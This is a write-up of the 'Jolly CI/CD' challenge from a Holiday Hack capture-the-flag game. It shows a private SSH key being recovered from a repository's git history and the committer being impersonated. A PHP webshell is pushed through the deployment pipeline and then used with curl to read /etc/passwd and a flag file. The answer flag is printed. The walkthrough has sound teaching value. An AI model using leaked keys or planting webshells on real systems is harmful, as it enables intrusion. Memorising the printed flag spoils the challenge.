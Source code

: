 ```yaml
---
icon: simple/travisci
---
```


# Jolly CI/CD
**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>
**Direct link**: [cicd terminal](https://hhc22-cicd.kringlecon.com/?&challenge=cicd&id=1a9f996e-1860-4c36-be8f-43e4fd87924d)


## Objective

!!! question "Request"
    Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

??? quote "Rippin Proudboot"
    Yes, hello, I'm Rippin Proudboot. Can I help you?<br/>
    Oh, you'd like to help me? Well, I'm not quite sure you can, but we shall see.<br/>
    The elves here introduced me to this new CI/CD technology. It seems quite efficient.<br/>
    Unfortunately, the sporcs seem to have gotten their grubby mits on it as well, along with the Elfen Ring.<br/>
    They've used CI/CD to launch a website, and the Elfen Ring to power it.<br/>
    Might you be able to check for any misconfigurations or vulnerabilities in their CI/CD pipeline?<br/>
    If you do find anything, use it to exploit the website, and get the ring back!


## Hints

??? hint "Switching Hats"
    If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.

??? hint "Commiting to Mistakes"
    The thing about Git is that every step of development is accessible – even steps you didn't mean to take! `git log` can show code skeletons.


## Solution

??? abstract "Welcome message"
    Greetings Noble Player,

    Many thanks for answering our desperate cry for help!

    You may have heard that some evil Sporcs have opened up a web-store selling
    counterfeit banners and flags of the many noble houses found in the land of
    the North! They have leveraged some dastardly technology to power their
    storefront, and this technology is known as PHP!

    ***gasp***

    This strorefront utilizes a truly despicable amount of resources to keep the
    website up. And there is only a certain type of Christmas Magic capable of
    powering such a thing… an Elfen Ring!

    Along with PHP there is something new we've not yet seen in our land.
    A technology called Continuous Integration and Continuous Deployment!

    Be wary!

    Many fair elves have suffered greatly but in doing so, they've managed to
    secure you a persistent connection on an internal network.

    BTW take excellent notes!

    Should you lose your connection or be discovered and evicted the
    elves can work to re-establish persistence. In fact, the sound off fans
    and the sag in lighting tells me all the systems are booting up again right now.

    Please, for the sake of our Holiday help us recover the Ring and save Christmas!

Start by cloning the repository mentioned by [Tinsel Upatree](o6.md) and look at the Git logs using `git log`. One of the commit messages says `whoops` and so that (or the previous commit) could be interesting to look at.

```
commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

    whoops

commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets
```

`git show abdea0ebb21b156c01f7533cea3b895c26198c98` shows that a private SSH key `/.ssh/.deploy` was inadvertedly added to the repository.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```

It also contains information about the associated public key at `/.ssh/.deploy.pub` which tells us the associated user is `sporx@kringlecon.com`. Both files are removed again in the following `e19f653bde9ea3de6af21a587e41e7a909db1ca5` commit with the `whoops` commit message.

```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com
```

Now that we have the SSH key for `sporx@kringlecon.com` we can clone the repository again using the Git protocol (instead of HTTP), using `git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git`. This now allows us to commit files to the repository as well (i.e., make the CI/CD pipeline publish our files). First set up the proper Git email and username configuration values. And store the private key in `~/.ssh/id_rsa` (remember to give both the `.ssh` folder and `id_rsa` restricted permissions).

```shell
git config --global user.email "sporx@kringlecon.com"
git config --global user.name "knee-oh"
```

We can add a [simple PHP webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) as a test.

```shell
cd wordpress.flag.net.internal
mkdir crahan
cd crahan
nano shell.php
cd ..
git add crahan
git commit -m 'adding a shell'
git push origin main
```

Now test the shell using something like `curl http://wordpress.flag.net.internal/crahan/shell.php?cmd=cat%20/etc/passwd` which executed `cat /etc/passwd` on the host. Roaming around we can find a `flag.txt` file in `/`. Using `curl http://wordpress.flag.net.internal/crahan/shell.php?cmd=cat%20/flag.txt` tells us the flag value is `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`

!!! done "Answer"
    `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`


## Response

!!! quote "Rippin Proudboot"
    How unexpected, you were actually able to help!<br/>
    Well, then I must apoligize for my dubious greeting.<br/>
    Us Flobbits can't help it sometimes, it's just in our nature.<br/>
    Right then, there are other Flobbits that need assistance further into the burrows.<br/>
    Thank you, and off you go.
